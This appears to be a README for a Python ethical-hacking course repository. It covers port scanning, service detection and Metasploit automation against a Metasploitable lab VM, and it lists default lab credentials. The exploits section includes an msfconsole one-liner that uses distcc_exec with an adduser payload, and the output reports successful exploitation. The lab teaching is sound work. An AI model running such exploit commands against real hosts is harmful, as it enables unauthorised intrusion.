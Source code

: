 # Pentest


## Learn Python & Ethical Hacking 

---
* <a href="Tutorial.md">Tutorial.md</a>
---
#### Mind map
* <a href="EH_2023_part_1.drawio.svg">EH_2023_part_1.drawio.svg</a>

---
## Device information:

  ```shell
  ifconfig
  ```

  ```shell
  ip -c a
  ```
  
  ```shell
  arp -a
  ```
  
  Windows  
  ```shell
  ipconfig /all
  ```
---
## Security Metasploitable

```
Login:password - msfadmin:msfadmin

msfadmin@metasploitable: cd /var/www/dvwa/dvwa/includes/
msfadmin@metasploitable: sudo nano dvwaPage.inc.php

setcookie( 'security', 'medium' )
```
```
http://10.0.2.4/dvwa/security.php

Username: admin
Security Level: low
```

---

## scripts

1. <a href="#port_scanner">Port Scanner</a>
2. <a href="#exploits_and_payloads">Exploits and Payloads</a>
3. <a href="#vulnerability_scanner">Vulnerability Scanner</a>



---

1. **Port Scanner** <a name="port_scanner"></a>  

    ```pycon
    cd 1_port_scan
    ```
    
    ```pycon
    ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/1_port_scan]
    └─$ python3 port_scanner_1.py -t 10.0.2.4 -p 100
    
    ```
    
    Some servers may consider such requests as a hacking attempt and block your IP address:
    ```pycon
    ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/1_port_scan]
    └─$ python3 port_scanner_2.py -t 10.0.2.1,10.0.2.4 -p 100
    
    ```

2. **Exploits and Payloads** <a name="exploits_and_payloads"></a>  

    ```pycon
    cd 2_exploits_and_payloads
    ```
   
   ```pycon
   ┌──(venv_EH)─(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ sudo python service_info_3.py 
   [sudo] пароль для kali: 
   {'PORT': '21/tcp', 'STATE': 'open', 'SERVICE': 'ftp', 'VERSION': 'vsftpd 2.3.4'}
   ```

   ```pycon
   ┌──(venv_EH)─(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ python3 get_exploits_MSF.py
   ```
   
   ```pycon
   ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ python MSF_exploits_and_payloads_1.py
   
   Trying exploit:  exploit/unix/misc/distcc_exec
   Trying payload:  payload/cmd/unix/adduser
   Trying command:  msfconsole -q -x "use exploit/unix/misc/distcc_exec; set payload payload/cmd/unix/adduser; set RHOSTS 10.0.2.4; set RPORT 3632; set LHOST 10.0.2.5; check; exit"
   [+] Successful exploitation:  exploit/unix/misc/distcc_exec, Payload: payload/cmd/unix/adduser
   - - - - - - - - - - - - - - - - - - - - 
   ```
   

---

1. **Vulnerability Scanner** <a name="vulnerability_scanner"></a>

    ```pycon
    cd 3_vulnerability_scanner
    ```
   ```pycon
   ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/3_vulnerability_scanner]
   └─$ python3 run_scanner.py
   
   ```
   ![run_vulnerability_scanner.gif](animation_gif%2Frun_vulnerability_scanner.gif)


